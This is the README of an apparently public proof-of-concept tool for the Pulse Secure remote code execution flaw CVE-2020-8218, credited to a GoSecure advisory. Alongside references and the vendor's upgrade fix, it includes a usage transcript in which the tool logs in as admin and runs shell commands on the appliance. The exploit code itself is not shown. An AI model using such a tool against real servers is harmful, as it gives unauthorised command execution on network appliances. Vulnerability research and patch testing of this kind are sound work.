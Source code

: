 # pulse-gosecure-rce

```
          _____                    _____                    _____            _____                    _____          
         /\    \                  /\    \                  /\    \          /\    \                  /\    \         
        /::\    \                /::\____\                /::\____\        /::\    \                /::\    \        
       /::::\    \              /:::/    /               /:::/    /       /::::\    \              /::::\    \       
      /::::::\    \            /:::/    /               /:::/    /       /::::::\    \            /::::::\    \      
     /:::/\:::\    \          /:::/    /               /:::/    /       /:::/\:::\    \          /:::/\:::\    \     
    /:::/__\:::\    \        /:::/    /               /:::/    /       /:::/__\:::\    \        /:::/__\:::\    \    
   /::::\   \:::\    \      /:::/    /               /:::/    /        \:::\   \:::\    \      /::::\   \:::\    \   
  /::::::\   \:::\    \    /:::/    /      _____    /:::/    /       ___\:::\   \:::\    \    /::::::\   \:::\    \  
 /:::/\:::\   \:::\____\  /:::/____/      /\    \  /:::/    /       /\   \:::\   \:::\    \  /:::/\:::\   \:::\    \ 
/:::/  \:::\   \:::|    ||:::|    /      /::\____\/:::/____/       /::\   \:::\   \:::\____\/:::/__\:::\   \:::\____\
\::/    \:::\  /:::|____||:::|____\     /:::/    /\:::\    \       \:::\   \:::\   \::/    /\:::\   \:::\   \::/    /
 \/_____/\:::\/:::/    /  \:::\    \   /:::/    /  \:::\    \       \:::\   \:::\   \/____/  \:::\   \:::\   \/____/ 
          \::::::/    /    \:::\    \ /:::/    /    \:::\    \       \:::\   \:::\    \       \:::\   \:::\    \     
           \::::/    /      \:::\    /:::/    /      \:::\    \       \:::\   \:::\____\       \:::\   \:::\____\    
            \::/____/        \:::\__/:::/    /        \:::\    \       \:::\  /:::/    /        \:::\   \::/    /    
             ~~               \::::::::/    /          \:::\    \       \:::\/:::/    /          \:::\   \/____/     
                               \::::::/    /            \:::\    \       \::::::/    /            \:::\    \         
                                \::::/    /              \:::\____\       \::::/    /              \:::\____\        
                                 \::/____/                \::/    /        \::/    /                \::/    /        
                                  ~~                       \/____/          \/____/                  \/____/         
  ```                                                                                                                   

## About
Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218) and to encourage further research. This tool was built around the POC from the GoSecure advisory. All credit to them for the finding. 

## Recommended Fix
As recommended by Pulse Secure:
***"The solution for these vulnerabilities is to upgrade the Pulse Connect Secure and Pulse Policy Secure server software version to the 9.1R8. This following PCS/PPS version can be downloaded from https://my.pulsesecure.net."***

## References
* https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44516/?kA23Z000000L6i5SAC
* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

## Usage
```
Example usage:
withdk@hogwarts source % python pulse-gosecure-rce.py -u https://192.168.1.120 --user admin --password mypassword
[*] Successfully logged in
(Cmd) ls /
[*] Sending cmd ls /
[*] Sending exploit...
[*] Getting output...
******************************************
2.6.32.358-x86_64
bin
boot
cgroups
data
dev
etc
home
lib
lib64
modules
opt
pkg
proc
runtime
sbin
sys
tmp
usr
va
var
webserver

******************************************
(Cmd) exit
Bye
[*] Getting logout URL
[*] Sending logout URL
[*] Successfully logged out.
```

DK @withdk
September 2020

## Disclaimer
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
